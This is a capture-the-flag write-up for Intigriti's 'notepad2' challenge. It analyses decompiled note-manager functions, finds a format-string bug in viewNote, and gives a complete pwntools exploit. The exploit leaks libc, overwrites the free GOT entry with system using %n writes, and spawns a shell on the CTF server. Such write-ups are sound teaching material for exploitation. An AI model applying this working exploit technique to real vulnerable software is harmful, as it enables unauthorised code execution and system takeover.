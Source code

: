 The program gives us a binary and libc file, similar to the structure of notepad1 but without the heap related error here.
**createNote()** function:

```c
unsigned __int64 createNote()
{
  unsigned int v0; // ebx
  unsigned int v2; // [rsp+Ch] [rbp-B4h] BYREF
  char src[152]; // [rsp+10h] [rbp-B0h] BYREF
  unsigned __int64 v4; // [rsp+A8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  puts("Choose the index to store your note(0-9)");
  printf("> ");
  __isoc99_scanf("%d", &v2);
  if ( v2 > 9 )
  {
    printf("Wrong index!");
    exit(0);
  }
  if ( notepad[v2] )
  {
    printf("Note already exists!");
    exit(0);
  }
  v0 = v2;
  notepad[v0] = (char *)malloc(0x96uLL);
  if ( !notepad[v2] )
  {
    printf("[X] Something went wrong!, Try again!");
    exit(0);
  }
  puts("Add your note:");
  printf("> ");
  __isoc99_scanf("%149s", src);
  strcpy(notepad[v2], src);
  return v4 - __readfsqword(0x28u);
}
```

The function creates a chunk of size 0x160, and accepts data with a maximum length of 149 characters, so there is no overflow error here.
```removeNote()``` function:

```c
unsigned __int64 removeNote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Choose the index of your note you want to remove");
  printf("> ");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 9 )
  {
    printf("Wrong index!");
    exit(0);
  }
  if ( !notepad[v1] )
  {
    printf("Note is already empty!");
    exit(0);
  }
  free(notepad[v1]);
  notepad[v1] = 0LL;
  return v2 - __readfsqword(0x28u);
}
```

It also deletes the chunk pointer so there is no UAF error here either.
**viewNote()** function:

```c
unsigned __int64 viewNote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Choose the index of your note you want to view");
  printf("> ");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 9 )
  {
    printf("Wrong index!");
    exit(0);
  }
  if ( !notepad[v1] )
  {
    printf("Note is empty at the index %d", v1);
    exit(0);
  }
  printf(notepad[v1]);
  return v2 - __readfsqword(0x28u);
}
```

We have a string format error in **print(notepad[v1])**. So we just need to enter the string format into the notepad data, print it out, then we will leak the libc address and change it as we want. First, I leak the libc address:

![image](https://hackmd.io/_uploads/BJdcKM_fye.png)

Result: 

![image](https://hackmd.io/_uploads/r1k2FG_zke.png)

Check in gdb and see if it matches.
Next, I tried to override got of **printf** as [here](https://www.youtube.com/watch?v=ZosW20QjET8&list=PLEvZsp0uc3SFuVi6TtcahxqsEbV29lXAM&index=19) but got seg fault. So I tried again with overriding got of free. With this override, I will write 2 bytes 1, total need to write 6 bytes

![image](https://hackmd.io/_uploads/SJgQqGuzkl.png)

Finally, just create a chunk with data as **''/bin/sh'** and free it to get the shell.

Script: 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./notepad2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("notepad2.ctf.intigriti.io", 1342)

    return r


def main():
    r = conn()
    def createNote(index, data):
        r.sendlineafter(b'> ', b'1')
        r.sendlineafter(b'> ', index)
        r.sendlineafter(b'> ', data)
    def viewNote(index):
        r.sendlineafter(b'> ', b'2')
        r.sendlineafter(b'> ', index)

    def deleteNote(index):
        r.sendlineafter(b'> ', b'3')
        r.sendlineafter(b'> ', index)
    input()
    # Leak dia chi libc
    createNote(b'0', b'%13$p')

    viewNote(b'0')

    libc_leak = int(r.recv(16), 16)
    libc.address = libc_leak - 0x28150
    info(b'Libc leak address: ' + hex(libc_leak).encode())
    info(b'Libc address: ' + hex(libc.address).encode())
    info(b'Libc system address: ' + hex(libc.sym['system']).encode())
    info(b'Libc got address: ' + hex(libc.sym['free']).encode())
    deleteNote(b'0')
    pause()
    # Leak canary
    # r.sendlineafter(b'> ', b'1')
    # r.sendlineafter(b'> ', b'1')
    # r.sendlineafter(b'> ', '%7$p')

    # r.sendlineafter(b'> ', b'2')
    # r.sendlineafter(b'> ', b'1')
    # canary_leak = int(r.recv(16), 16)
    # info(b'Canary leak: ' + hex(canary_leak).encode())
    # # Leak rbp address
    # r.sendlineafter(b'> ', b'1')
    # r.sendlineafter(b'> ', b'2')
    # r.sendlineafter(b'> ', '%8$p')

    # r.sendlineafter(b'> ', b'2')
    # r.sendlineafter(b'> ', b'2')
    # save_rbp = int(r.recv(16), 16)
    # info(b'Save_rbp: ' + hex(save_rbp).encode())

    # # Leak return main address
    # r.sendlineafter(b'> ', b'1')
    # r.sendlineafter(b'> ', b'3')
    # r.sendlineafter(b'> ', b'%9$p')

    # r.sendlineafter(b'> ', b'2')
    # r.sendlineafter(b'> ', b'3')
    # return_main = int(r.recv(7), 16)
    # info(b'Return main address: ' + hex(return_main).encode())

    # Overwrite GOT printf
    # exe.address = 0x00000000003fe000
    system_plt  = libc.sym['system']
    for i in range(3):
        createNote(str(i).encode(), f'%{exe.got.free + (i*2)}c%17$lln')
        viewNote(str(i).encode())
        createNote(str(9-i).encode(), f'%{system_plt &0xffff}c%47$hn')
        viewNote(str(9-i).encode())
        system_plt >>= 16
    
    createNote(b'6', b'/bin/sh\0')
    deleteNote(b'6')
    
    pause()
    
    # Trigger /bin/sh
    # r.sendlineafter(b'> ', b'1')
    # r.sendlineafter(b'> ', b'5')
    # r.sendlineafter(b'> ', b'/bin/sh')
    # pause()
    # r.sendlineafter(b'> ', b'2')
    # r.sendlineafter(b'> ', b'5')
    # pause()
    # good luck pwning :)
    
    r.interactive()


if __name__ == "__main__":
    main()


```
Result:

![image](https://hackmd.io/_uploads/Hk6D5G_fJx.png)

Flag: ```INTIGRITI{f0rm4t_0n_h34p_1s_fun}```
